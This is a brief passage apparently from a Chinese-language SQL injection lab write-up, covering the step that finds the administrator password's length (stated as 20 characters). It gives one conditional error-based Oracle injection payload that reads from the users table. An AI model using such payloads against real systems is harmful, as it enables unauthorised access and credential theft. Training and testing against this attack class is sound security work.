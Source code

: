 ![img](assets/%E5%9B%BE%E7%89%87%2063.png) 

### 2.13.6. **判断密码位数**

通过测试，得出密码有20位。

```
payload：'||(select case when length(password)>1 then+to_char(1/0) else '' end from users where username='administrator')||'
```
